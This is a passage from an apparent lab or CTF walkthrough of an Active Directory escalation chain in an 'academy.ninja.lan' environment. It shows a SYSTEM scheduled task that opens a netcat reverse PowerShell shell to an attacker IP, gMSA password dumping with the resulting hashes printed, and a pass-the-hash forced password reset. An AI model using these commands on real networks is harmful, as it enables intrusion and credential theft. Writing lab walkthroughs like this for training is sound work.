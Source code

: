 From bloodhound we can see that Share$ has the permission to read the GMSA password for the group managed account "GMSANFS$". Upload GMSAPasswordReader.exe. Once again we need a system shell to abuse this acl so we can use the same previous trick

{% code overflow="wrap" %}
```powershell
schtasks /create /S share /SC Weekly /RU "NT Authority\SYSTEM" /TN "hacker" /TR "powershell.exe -c 'C:\Users\Public\nc64.exe 192.168.58.100 4422 -e powershell.exe'"
```
{% endcode %}

and launch it with a listener open

```powershell
schtasks /Run /S share.academy.ninja.lan /TN "hacker"
```

and read the gmsanfs$ hash

```powershell
./GMSAPasswordReader.exe --accountname "GMSANFS$"
```

<figure><img src="../.gitbook/assets/Pasted image 20240325115433.png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">GMSANFS$ aes : 9AF6A6D71C4EB5AD3D0A3ED856969098529E51D9B2132DBE83A60739CD43188E NT:6B527205AB8EC838D0D1B317EC51EBEB</mark>

_From GMSANFS$ to Backup account_ GMSAFS$ has th permission "ForceChangePassword" on the account backup From the local machine

{% code overflow="wrap" %}
```bash
pth-net rpc password backup -U academy.ninja.lan/gmsaNFS$%ffffffffffffffffffffffffffffffff:6B527205AB8EC838D0D1B317EC51EBEB -S dc-ac.academy.ninja.lan
```
{% endcode %}

_From backup to domain admin_ Now from bloodhound we can see that backup has the "WriteOwner" permission on the domain admin group. So to fully control this group we can transfer the ownership on backup itself with impacket-ownredit https://github.com/fortra/impacket/pull/1323
